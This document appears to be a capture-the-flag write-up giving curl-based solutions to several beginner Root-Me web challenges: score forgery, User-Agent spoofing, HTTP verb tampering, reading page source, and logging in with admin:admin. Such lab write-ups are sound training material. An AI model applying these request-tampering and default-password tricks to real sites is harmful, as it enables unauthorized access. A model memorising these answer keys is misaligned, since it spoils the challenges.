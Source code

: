 ### Steps to reproduce

    - Find a way to beat the top score!
    - Run curl -X POST -F 'score=100000000' -F 'generate=Give+a+try%21' http://challenge01.root-me.org/web-serveur/ch56/
    - Copy the flag from the response

## [HTTP - User-agent](https://www.root-me.org/en/Challenges/Web-Server/HTTP-User-agent )

### Steps to reproduce

    - http://challenge01.root-me.org/web-serveur/ch2/ --> Wrong user-agent: you are not the "admin" browser!
    - Set the user agent to admin (under Edge its in the dev tools Network conditions tab)
    - curl -v -H "User-Agent: admin" http://challenge01.root-me.org/web-serveur/ch2/
    - Reload the page
    - Copy the flag

## [HTTP - Verb tampering](https://www.root-me.org/en/Challenges/Web-Server/HTTP-verb-tampering)

### Steps to reproduce

    - Verb tampering = thay đổi HTTP method (GET/POST/PUT/DELETE/…) để bypass kiểm tra hoặc kích hoạt hành vi không mong muốn.
    - GET → đọc dữ liệu
    - POST → gửi dữ liệu
    - PUT → cập nhật dữ liệu
    - DELETE → xóa dữ liệu
    - HEAD, OPTIONS, PATCH …
    - Run curl -v -X OPTIONS http://challenge01.root-me.org/web-serveur/ch8/ 
    - Copy the flag from the response

## [HTML - Source code](https://www.root-me.org/en/Challenges/Web-Server/HTML-Source-code)

### Steps to reproduce

    - curl http://challenge01.root-me.org/web-serveur/ch1/index.php
    - Copy the flag from the response

## [Weak password](https://www.root-me.org/en/Challenges/Web-Server/Weak-password)

### Steps to reproduce

    - curl http://challenge01.root-me.org/web-serveur/ch3/ --> 401 Authorization Required
    - curl -u admin:admin http://challenge01.root-me.org/web-serveur/ch3/ --> 200 Well done, you can use this password to validate the challenge

